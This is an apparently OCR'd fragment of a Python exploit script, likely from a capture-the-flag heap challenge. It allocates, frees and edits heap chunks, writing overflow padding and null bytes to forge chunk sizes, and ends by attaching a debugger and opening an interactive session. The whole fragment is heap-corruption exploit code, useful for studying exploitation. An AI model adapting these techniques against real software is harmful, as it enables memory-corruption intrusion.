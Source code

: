 ```python

delete_chunk(3)

add_chunk(3, 0x438)
edit_chunk(3, 0x418*b'a'+p64(0xa91))
add_chunk(6, 0x428)
add_chunk(4, 0x418)
add_chunk(1, 0x418)

delete_chunk(1)
delete_chunk(4)
add_chunk(1, 0x418)
edit_chunk(1, b'a'*8 + p8(0))
add_chunk(4, 0x418)
#
delete_chunk(4)
delete_chunk(6)
add_chunk(8, 0x9f8)

add_chunk(6, 0x428)
edit_chunk(6, p8(0))
add_chunk(4, 0x418)
add_chunk(9, 0x38)

edit_chunk(7, 0x100*b'a'+p64(0xa90)+p8(0))

delete_chunk(8)

gdb.attach(p)

it()
```
